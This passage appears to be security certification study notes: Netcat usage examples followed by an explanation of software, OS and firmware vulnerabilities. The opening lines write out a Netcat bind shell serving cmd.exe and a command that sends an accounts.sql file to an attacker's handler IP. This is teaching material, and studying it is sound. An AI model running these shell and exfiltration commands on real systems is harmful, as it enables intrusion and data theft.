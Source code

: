 nc -l -p 666 -e cmd.exe

The following command connects to the listener and grants access to the terminal:

nc 10.1.0.1 666

Used the other way around, Netcat can be used to receive files. For example, on the target system the attacker runs the following:

type accounts.sql | nc 10.1.0.192 6666

On the handler (IP 10.1.0.192), the attacker receives the file using the following command:

nc -l -p 6666 > accounts.sql

# 3B
## EXAM OBJECTIVES COVERED

1.6 Explain the security concerns associated with various types of vulnerabilities( #vulnerability  )

Performing a security assessment effectively is not simply a matter of choosing appropriate tools. You need to understand the types of vulnerabilities that affect information systems and networks. You must also be able to evaluate and explain the impacts that can arise from vulnerabilities, so that assessment and remediation activities can be given priority where they are most needed.

## SOFTWARE VULNERABILITIES AND PATCH MANAGEMENT
Software exploitation means an attack that targets a vulnerability in software code. An application vulnerability is a design flaw that can cause the security system to be circumvented or that will cause the application to crash. Typically, vulnerabilities can only be exploited in quite specific circumstances but because of the complexity of modern software and the speed with which new versions must be released to market, almost no software is free from vulnerabilities. As two contrasting examples, consider vulnerabilities affecting Adobe's PDF document reader versus a vulnerability in the server software underpinning transport security. The former could give a threat actors a foothold on a corporate network via a workstation; the latter could expose the cryptographic keys used to provide secure web services to compromise. Both are potentially high impact for different reasons.

It is also important to realize that software vulnerabilities affect all types of code, not just applications:

-   Operating system (OS)—an application exploit will run with the permissions of the logged on user, which will hopefully be limited. A vulnerability in an OS kernel file or shared library is more likely to allow privilege escalation, where the malware code runs with higher access rights (system or root). Dirty COW is one example of a Linux kernel vulnerability ([access.redhat.com/blogs/766093/posts/2757141](https://access.redhat.com/blogs/766093/posts/2757141)).
-   Firmware—vulnerabilities can exist in the BIOS/UEFI firmware that controls the boot process for PCs. There can also be bugs in device firmware, such as network cards and disk controllers. Finally, network appliances and Internet of Things (IoT) devices run OS code as a type of firmware. Like kernel vulnerabilities, firmware exploits can be difficult to identify, because the exploit code can run with the highest level of privilege. The Intel AMT vulnerability illustrates the impacts of a firmware vulnerability ([blackhat.com/docs/us-17/thursday/us-17-Evdokimov-Intel-AMT-Stealth-Breakthrough-wp.pdf](https://wmx-api-production.s3.amazonaws.com/courses/5731/supplementary/us-17-Evdokimov-Intel-AMT-Stealth-Breakthrough-wp.pdf)).
